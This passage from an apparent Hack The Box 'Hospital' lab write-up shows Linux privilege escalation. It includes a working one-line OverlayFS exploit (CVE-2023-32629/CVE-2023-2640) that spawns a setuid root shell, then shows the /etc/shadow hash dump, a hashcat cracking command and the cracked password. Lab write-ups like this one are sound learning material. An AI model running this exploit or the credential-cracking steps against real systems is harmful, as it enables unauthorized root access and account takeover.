 ## Privesc on Linux Server 
Further enumeration shows that the Linux machine is vulnerable to CVE-2023-32629 & CVE-2023-2640 privilege escalation exploits based on the machine kernel which is 5.19.0-35-generic Ubuntu, the exploit works in a path where www-data can read and write.

poc.sh 
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
![privesc on LS](/assets/img/htb/hospital/privesc_linux_server_2.png)

Upon achieving root access, the /etc/shadow file is accessible, allowing for the extraction of hashes for cracking attempts.

![reading /etc/shadow](/assets/img/htb/hospital/reading_shadow.png)

Using hashcat, the password for 'drwilliams' is successfully cracked. `qwe123!@#`

```bash
hashcat -a 0 -m 1800 drwilliams_hash /usr/share/wordlists/rockyou.txt
```
## Access to the Windows server

The credentials obtained of drwilliams work for the https://hospital.htb webmail.

